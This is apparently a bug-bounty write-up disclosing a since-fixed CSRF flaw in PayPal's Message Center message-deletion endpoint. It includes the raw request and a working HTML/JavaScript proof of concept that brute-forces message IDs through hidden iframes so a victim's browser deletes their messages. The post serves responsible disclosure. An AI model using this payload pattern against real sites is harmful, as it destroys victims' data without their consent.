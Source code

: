 ```yaml
---
layout: post
title:  "I could’ve deleted all SMC messages. using Brute Force Technique – PayPal"
---
```


## Introduction:

While playing around with the SMC platform at paypal.com, I came across an interesting endpoint which doesn’t include CSRF token within its request when you delete a message. Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help from social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, in this case, a CSRF attack can force the user to delete all of his messages without the victim’s notice.

### PayPal Message Center [SMC]:

PayPal has created a Message Center for its customers like most financial institutions and eBay provides. The Message Center gives PayPal the ability to communicate with you within the framework of a new mailbox inside your PayPal account. It also provides you with a way to validate customer service emails that you may consider suspicious. This way, you can trust that the communications you receive are from PayPal itself. How does it work?

Emails from PayPal will be put into the Message Center. A notification will be sent to let you know that you have a message.

1. Open https://www.paypal.com/ma/selfhelp/contact/email/t_s
2. At the middle, select which issue/topic do you want to ask about.
3. Click “SEND”, then wait for them to reply with a solution/information

### The Interesting HTTP-Request:

```
GET /smc/delete-msg/?message_id=38223655 HTTP/1.1
Host: www.paypal.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: https://www.paypal.com/smc/customer
Cookie: **********************************************************
Connection: close
```

Apparently, there’s no CSRF token right there but there’s a message_id which definitely could replace the CSRFtoken on its job, due to its difficulty to be guessed.

## The Attack scenario/Proof of Concept:

The only way that could let us find the right message_id is to use a dynamic functionality written by JavaScript to brute force the message_id through the URL.

```
<html>
<body>
<div id="elementID"></div>
<script>
   for (var i=38223650; i<=38223800;i++) {
    var url = "https://www.paypal.com/smc/delete-msg/?message_id=";
      url = url + String(i);
      frame = document.createElement('iframe');
      frame.setAttribute('src', url);
      frame.setAttribute('width', '30px');
      frame.setAttribute('height', '50px');
      (document.getElementById('elementID')).appendChild(frame);
   }
</script>
</body>
</html>
```

Now, we just have to save this file as an HTML file and upload it to our server in order to send it to the victim. When the victim will access this page, it will create a few new iframes with the SRC attribute set to:


```
https://www.paypal.com/smc/delete-msg/?message_id=38223650
https://www.paypal.com/smc/delete-msg/?message_id=38223651
https://www.paypal.com/smc/delete-msg/?message_id=38223652
https://www.paypal.com/smc/delete-msg/?message_id=38223653
https://www.paypal.com/smc/delete-msg/?message_id=38223654
https://www.paypal.com/smc/delete-msg/?message_id=38223655
https://www.paypal.com/smc/delete-msg/?message_id=38223656
```

So, what’s happening here! When it creates an iframe of https://www.paypal.com/smc/delete-msg/?message_id= it’s going to use the number 38223650 as the value of the message_id parameter and submit the URL. Then it’s going to keep increment the value of the message_id by one more digit +1 until it covers all the messages inside the inbox/sent folder. I could also make this script start from 0 to 9999999.. which means there’s a high chance that the script will cover all valid message_id inside the victim’s account.

![](/_posts/images/post-1-image001.png?raw=true)

The idea behind creating a new iframe is preferable because it takes less memory to process so chances of a crash are also less. And if it DOES the victim won’t control the browser until the script is done. Otherwise, the IFrames keep processing while the victim is waiting for the browser to be stabilized.


## How it got FIXED:

The PayPal security team resolved this issue using the most popular implementation to prevent the CSRF vulnerability, which is a secret/random token that is associated with a particular user called Anti-CSRF, then include it within every sensitive request that requires a server-side verification before authorizing any sensitive action.

![](/_posts/images/post-1-image002.png?raw=true)

### Timeline:

- 15th of January 2018 – Bug reported.
- 24th of January 2018 – First response from PayPal, More Information Required –Researcher.
- 23rd of Mars 2018 – The vulnerability is fixed now.